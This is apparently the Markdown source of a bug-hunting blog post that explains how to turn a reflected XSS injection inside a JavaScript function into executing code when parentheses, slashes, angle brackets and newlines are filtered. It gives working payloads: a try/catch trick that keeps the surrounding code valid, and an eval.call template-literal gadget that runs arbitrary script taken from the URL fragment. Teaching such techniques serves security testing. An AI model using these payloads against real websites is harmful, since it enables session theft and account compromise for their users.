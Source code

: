 ```yaml
---
layout: post
title: "Breaking out of a function context without () and // for XSS"
lead_words: 26
---
```


Let's say you've found something that could lead to relfected xss. You can inject unescaped characters in a piece of javascript on a page, for example:


{% highlight html linenos %}
...
<script>
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/INJECTION_HERE';
            someMoreCode;
        }
        //...
    });
</script>
...
{% endhighlight %}

Also, you want your xss payload to fire without a need of `foo` function being called, but you cannot use `(`, `)`, `/`, `<`, `>` and new lines. This can actually happen if our entry point is a part of url's path like `https://www.example.com/foo/OUR_INPUT_HERE/bar/`. In such conditions, we cannot get out of `<script>` and jquery's `$(...)`. So what do we do?

## Getting out of foo ...

First, let's get out of `foo` function. This one is pretty simple and obvious. All we have to do is to inject:

{% highlight text %}
'} alert`1` - '
{% endhighlight %}

but then we get:
{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1` - '';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

Closing bracket on line 8 breaks the code inside `$(function () {...})` and therefore our `alert` is not being executed. We need to do it a little bit smarter.

## ... without braking everything else

So, we need to put something after our `alert` to make the closing bracket fit. Maybe let's add `function bar() {`?
<br>
<div style="text-align: center; opacity: .8"> but we cannot use ()'s.</div>
<br>
So maybe we can just open `{` to get an [object literal](https://www.dyn-web.com/tutorials/object-literal/)?
<br>
<br>
<div style="text-align: center; opacity: .8">Inside an object literal only key:value pairs are allowed and we have bunch of code in the following lines</div>
<br>
<br>
Ok. So what kind of javascript creature has an opening `{`, no `()`'s and code inside?
<br>
<br>
<div style="text-align: center; opacity: .8">
The try...catch statement!
</div>
<br>
<br>
Great! When we use something like:

{% highlight text %}
'} alert`1`; try {} catch {'
{% endhighlight %}

we end up with:

{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1`; try {} catch {'';
            someMoreCode;
        }
        //...
    });
...
{% endhighlight %}

which is valid javascript code and therefore our `alert` fires!

## But how do we execute anything more meaningful than an alert?

As I've mentioned, we are not allowed to use `()` which makes creating payloads a bit tricky. To get around this, we can use the following trick. First, we inject this in our entry point:

{% highlight javascript %}
eval.call`${document.location.hash.substr`1`}`
{% endhighlight %}

and then we put our payload in url's [fragment identifier](https://en.wikipedia.org/wiki/Fragment_identifier) where all characters are allowed.

For example:

{% highlight text %}
https://www.example.com/foo/eval.call`${document.location.hash.substr`1`}`/bar/#yourPayloadHere()
{% endhighlight %}

Of course, we need to url encode `eval.call...` to make it work.


<br>
<br>
Happy hunting!
